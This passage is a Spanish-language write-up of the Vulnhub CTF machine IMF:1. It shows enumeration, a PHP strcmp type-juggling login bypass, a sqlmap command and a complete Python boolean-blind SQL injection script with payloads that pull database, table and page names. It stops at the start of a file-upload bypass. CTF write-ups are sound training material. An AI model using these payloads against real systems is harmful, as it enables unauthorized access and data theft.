+++
author = "Andrés Del Cerro"
title = "Vulnhub: IMF:1 Writeup | Medium"
date = "2025-01-27"
description = ""
tags = [
    "Vulnhub",
    "IMF:1",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Source Code Analysis",
    "Username Enumeration",
    "PHP Type Juggling",
    "Authentication Bypass",
    "Blind SQL Injection",
    "Python Scripting",
    "Scripting",
    "Bypassing File Type Check",
    "Magic Numbers",
    "Arbitrary File Upload",
    "Bypassing WAF",
    "Reversing ELF Binary",
    "ghidra"
    "Reverse Port Forwarding",
    "Buffer Overflow",
    "ret2reg"
]

+++

# Vulnhub: IMF:1 Writeup

Welcome to my detailed writeup of the medium difficulty machine **"IMF:1"** on Vulnhub. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 192.168.18.135 --ulimit 5000 -g
192.168.18.135 -> [80]
```

```console
nmap -p80 -sCV 192.168.18.135 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 16:25 CET
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 192.168.18.135
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: IMF - Homepage
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.42 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.18.135 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 16:26 CET
Nmap scan report for 192.168.18.135
Host is up (0.00020s latency).
All 1500 scanned ports on 192.168.18.135 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)
MAC Address: 00:0C:29:71:6E:EF (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.86 seconds
```

Del escaneo inicial no encontramos nada interesante, solo vemos que existe un servicio web en el puerto 80.

# HTTP Enumeration
`whatweb` no reporta nada fuera de lo común.
```console
whatweb http://192.168.18.135
http://192.168.18.135 [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.18.135], JQuery[1.10.2], Modernizr[2.6.2.min], Script, Title[IMF - Homepage], X-UA-Compatible[IE=edge]
```

Así se ve el sitio web principal.


En el recurso `/contact.php` encontramos algunos nombres de usuarios, también encontramos el dominio `imf.local`, lo vamos a añadir al `/etc/hosts`


También hay un formulario de contacto el cual no lleva la información a ningún sitio, aún estoy esperando el día donde la intrusión de algún CTF sea a través de un formulario de contacto.


# 2nd Flag
## Weird `.js` files
Sin embargo, revisando la pestaña de `Network` en las herramientas del desarrollador en Firefox, me encontré algunos recursos `.js` con un nombre un tanto extraño.


El contenido de estos archivos no es extraño, pero el nombre de estos archivos parece que está formando una cadena en base64. Juntando los nombres y decodificando en base64 encontramos la segunda flag, parece que me he saltado la primera y parece que van a haber varias flags en este CTF.
```console
cat content.txt | base64 -d
flag2{aW1mYWRtaW5pc3RyYXRvcg==}
```

# Finding the first flag
Revisando el código fuente, encontramos la primera flag en el recurso `/contact.php`


Eso fue fácil por ahora.

# 3rd flag
Igualmente, podemos fijarnos que las flags tienen otra cadena en base64, las cuales si las decodificamos obtenemos lo siguiente.

```console
echo "YWxsdGhlZmlsZXM=" | base64 -d
allthefiles% 
```

```console
echo "aW1mYWRtaW5pc3RyYXRvcg==" | base64 -d
imfadministrator
```

Revisando la cadena `allthefiles` no corresponde a ningún recurso que haya podido encontrar, sin embargo, existe un recurso `imfadministator` que parece que nos lleva a un panel de autenticación un poco primitivo.


Probando varias credenciales, vemos un mensaje de error que dice `Invalid username`, esto puede ser útil ya que quizás nos permita enumerar usuarios válidos.


Recordemos que antes hemos enumerado algunos usuarios expuestos en el recurso `/contact.php`, al probar con estos usuarios vemos que nos reporta un error distinto al probar al usuario `rmichaels`


En la respuesta del servidor podemos ver un mensaje, nos indica que no pudo conseguir funcionar las consultas a la base de datos por detrás pero que a hard-codeado la contraseña.


## PHP Type Juggling
Esto significa que se está haciendo una comparativa directa con la contraseña, pueden existir varios casos donde podamos saltarnos esta comparativa si se cumplen algunos casos como que se utilice el doble operador de comparación en vez de el triple (`==`) o que se esté utilizando las funciones `strcmp()/strcasecmp()`
[Recomiendo leer este artículo de HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/index.html?highlight=type%20juggling#loose-comparisonstype-juggling---)

Después de probar, podemos suponer que por detrás existe una comparativa como esta.
```php
if (strcmp($_POST["pass"],"CONTRASEÑA_REAL") == 0) { echo "Pa dentro mi niño"; } else { echo "Nou nou nou"; }
```

En este caso, podemos mandar un array vacio en lugar de una cadena de texto, PHP comparará entonces un array vacio con un string, por lo cual retornará un error, es decir, `NULL`, y en PHP, `NULL` es igual a `0`, por lo cual la comparativa se cumpliría y podríamos saltarnos el panel de autenticación.


Podemos ver la tercera flag, el base64 nos da una pequeña pista, continuar hasta el CMS...
```console
echo "Y29udGludWVUT2Ntcw==" | base64 -d
continueTOcms
```

# 4th flag
Vemos un botón que nos redirecciona a: `cms.php?pagename=home`


Un poco raro el parámetro `pagename`, ahora mas adelante lo exploraremos.

El recurso `upload` vemos que está bajo construcción y no vemos nada interesante.


Lo mismo para el recurso `disavowlist`, no podemos encontrar nada.


## SQL Injection w/sqlmap
Si ponemos una `'` en el parámetro `pagename` vemos un error SQL, esto es un poco raro.


Entonces podemos deducir que por detrás está ocurriendo una consulta tal que así.
```sql
SELECT * FROM pages WHERE pagename=INPUT;
```

Si no se realiza ninguna sanitización del input del usuario significaría que esto es vulnerable a una inyección SQL.

Con `sqlmap` podemos verificar que efectivamente es vulnerable a SQL Injection y podemos enumerar la base de datos.
```console
sqlmap --level=5 --risk=3 -u "http://imf.local/imfadministrator/cms.php?pagename=*" --cookie="PHPSESSID=3gt7u1sgr34ec45qdvpctjrbn6" --dbs
```


## Manual Blind SQL Injection (python scripting)
Con esto podríamos continuar con nuestro CTF, pero vamos a hacer una explotación manual ya que llevo bastante tiempo sin hacer un CTF y aquí lo que queremos es calidad.

Con el payload `home' or '1'='1` nos devuelve la página `home`, por lo cual es una consulta válida, por detrás se debe de ver así.


```sql
SELECT * FROM pages WHERE pagename='home' or '1'='1';
```

Por lo cual es una consulta válida.

Este es el primer paso para la SQLi, ahora, lo que queremos es una consulta válida para poder ir enumerando carácter por carácter las bases de datos.

Como sabemos que el DBMS es MySQL por que nos lo ha confirmado `sqlmap`, sabemos que existe una tabla llamada `information_schema.schemata`, esta tabla nos da información sobre las bases de datos.

Entonces una consulta que nos muestra todas las bases de datos sería.
```sql
SELECT schema_name FROM information_schema.schemata;
```

Ahora bien, adaptándonos al contexto de nuestra SQLi no podemos ver directamente la información, lo que si que podemos hacer es forzar que se cargue una página, por ejemplo, la `disavowlist` que sabemos que existe en caso de que NO acertemos un carácter de la base de datos que estamos enumerando.

Además, apoyándonos con `limit` que sirve para limitar el número de resultados, podríamos enumerar todas las bases de datos, un ejemplo de consulta siguiendo esta lógica es la siguiente.
```SQL
SELECT * FROM sites where pagename = 'disavowlist' or substring((select schema_name from information_schema.schemata limit 1),1,1)='i'
```

En resumidas cuentas, esa consulta determina si el primer carácter del nombre de la primera base de datos en `information_schema.schemata` es igual a `i`, si esto no es así, carga la primera condición que es que la `pagename` es igual a `disavowlist`

Entonces, si el primer carácter no es válido, cargaría la página `disavowlist`


Sin embargo, si el primer carácter es válido, carga otro recurso.


Ahora bien, si utilizamos `limit 0,1`, nos mostrará el primer resultado, si utilizamos `limit 1,1` nos mostrará el segundo resultado, si utilizamos `limit 2,1` nos mostrará el tercer resultado... y así.

Después de un rato de prueba y error, tenemos nuestro script para enumerar las bases de datos listo.
```python
#!/usr/bin/python3
import requests
import string
import signal
import time
from pwn import *

BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select schema_name from information_schema.schemata limit <OFFSET>,1),<POSITION>,1)='<REPLACE>"
CHECK_VULN_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist%27%20and%20%271%27=%271"
COOKIES = {
    'PHPSESSID': '3gt7u1sgr34ec45qdvpctjrbn6' # Replace with your admin phpsessid
}
DISAVOW_LENGTH = 450

def def_handler(var1,var2):
    print("[i] Exiting...")
    exit(0)

def check_if_vuln():
    return len(requests.get(CHECK_VULN_URL, cookies=COOKIES).text) == DISAVOW_LENGTH

def sqli():
    if check_if_vuln() is not True:
        log.error("Not vulnerable")
        exit(1)

    log.info("Target is vulnerable")

    charset = string.ascii_lowercase + string.digits + "_"
    databases = []
    for offset in range(0,10): # There shouldn't be so many databases, you can tweak this
        database_name = ""
        p1 = log.progress(str(offset) + " Database name")
        for position in range(1,50): # A database name shouldn't have a long name, you can tweak this
            for char in charset:
                r = requests.get(BASE_URL.replace("<OFFSET>", str(offset)).replace("<POSITION>", str(position)).replace("<REPLACE>",char), cookies=COOKIES)
                if len(r.text) != DISAVOW_LENGTH:
                    database_name += char
                    p1.status(database_name)
                    break
        if database_name == "":
            log.info("OK")
            exit(0)
        databases.append(database_name)

    for dbname in databases:
        print("[i] " + dbname)

if __name__ == "__main__":
    signal.signal(signal.SIGINT,def_handler)
    sqli()
```

Este es el output.
```console
python3 sqli.py
[*] Target is vulnerable
[▖] 0 Database name: information_schema
[/] 1 Database name: admin
[O] 2 Database name: mysql
[>] 3 Database name: performance_schema
[o] 4 Database name: sys
[d] 5 Database name
[*] OK
```

### Tweaking the script to get the tables
Ahora que tenemos las bases de datos, vamos a modificar un poco el script para enumerar ahora las tablas de la base de datos que nos interesa, en este caso, obviamente nos gusta la base de datos llamada `admin`.

Lo único que tenemos que modificar es la variable `BASE_URL` estableciendo la consulta que queremos hacer ahora la cual va a tener los mismos parámetros, el `OFFSET`, `POSITION` y `REPLACE` por lo cual no tenemos que cambiar nada del script.

Para enumerar las tablas de una base de datos, en MySQL existe `information_schema.tables`, [podemos consultar la documentación](https://dev.mysql.com/doc/refman/8.4/en/information-schema.html), podemos ver que la columna `table_schema` nos reporta el nombre de la base de datos a la que pertenece la tabla, por lo cual podemos igualar esto a `admin` para poder enumerar utilizando el mismo método (limit y offset) todas las tablas de `admin`.

Cambiamos `BASE_URL`
```python
BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select table_name from information_schema.tables where table_schema = 'admin' limit <OFFSET>,1),<POSITION>,1)='<REPLACE>"
```

Si lanzamos el script ahora, vemos una única tabla llamada `pages`.
```console
python3 sqli.py
[*] Target is vulnerable
[↗] 0 Database name: pages
[◣] 1 Database name
[*] OK
```

### Tweaking the script to get the columns
Vamos a modificar ahora la `BASE_URL` pero ahora consultando [information_schema.columns](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html) para consultar las columnas de esta tabla.

Podemos igualar `table_schema` a `admin` y `table_name` a `pages` para consultar todas las columnas de `admin.pages`
```python
BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select column_name from information_schema.columns where table_schema = 'admin' and table_name = 'pages' limit <OFFSET>,1),<POSITION>,1)=
```

Vemos las columnas, nos interesa las columnas `pagename` y `pagedata`
```console
python3 sqli.py
[*] Target is vulnerable
[.......\] 0 Database name: id
[ ] 1 Database name: pagename
[\] 2 Database name: pagedata
[▆] 3 Database name
[*] OK
```

### Tweaking the script to get the relevant information
Por lo cual podemos modificar otra vez `BASE_URL` pero ahora haciendo la consulta directamente a `admin.pages` para poder recuperar los registros que se encuentren en la base de datos.
```python
BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select pagename from admin.pages limit <OFFSET>,1),<POSITION>,1)='<REPLACE>"
```

No nos interesa `pagedata` ya que resulta que es el contenido del sitio web, por lo cual directamente teniendo el `pagename` podemos visualizarlo en el navegador.

Si ejecutamos el script, vemos un sitio que no habíamos visto antes, `tutorialsincomplete`
```console
python3 sqli.py
[*] Target is vulnerable
[↙] 0 Database name: disavowlist
[▖] 1 Database name: home
[└] 2 Database name: tutorialsincomplete
[◥] 3 Database name: upload
[ ] 4 Database name
[*] OK
```

Sin embargo no se nos muestra nada por el navegador.


Esto puede ser porque utilice algún carácter especial, por lo cual vamos a añadir un set de caracteres especiales.
Modificamos la variable `charset`
```python
charset = string.ascii_lowercase + string.digits + "_" + "~!@$%^*()-=<>?/"
```

Ahora si lanzamos el script...
```console
 python3 sqli.py
[*] Target is vulnerable
[◑] 0 Database name: disavowlist
[O] 1 Database name: home
[├] 2 Database name: tutorials-incomplete
[....\...] 3 Database name: upload
[|] 4 Database name
[*] OK
```

Ahora si que podemos ver algo diferente, nos damos cuenta de que hay una imagen y un código QR un tanto extraño.


Podemos utilizar [qrcodescan.in](https://qrcodescan.in/) para escanearlo y vemos la cuarta flag.


# 5th flag
Si decodificamos la cuarta flag, vemos el posible nombre de un recurso.
```console
echo "dXBsb2Fkcjk0Mi5waHA=" | base64 -d
uploadr942.php
```

Vemos que efectivamente, este recurso existe, y parece que podemos subir un archivo al servidor.


Si intentamos subir un archivo `.txt` nos reporta que el tipo del archivo no es válido.


## Bypassing File Type Check
### Creating a script to detect allowed file types
Primero debemos saber que tipos de archivos le gusta al servidor, así que vamos a hacer otro pequeño script para ir subiendo archivos de varios tipos de [este repositorio](https://github.com/NicolasCARPi/example-files).

Así que primero nos clonamos el repositorio.
```console
git clone https://github.com/NicolasCARPi/example-files
Cloning into 'example-files'...
remote: Enumerating objects: 66, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (18/18), done.
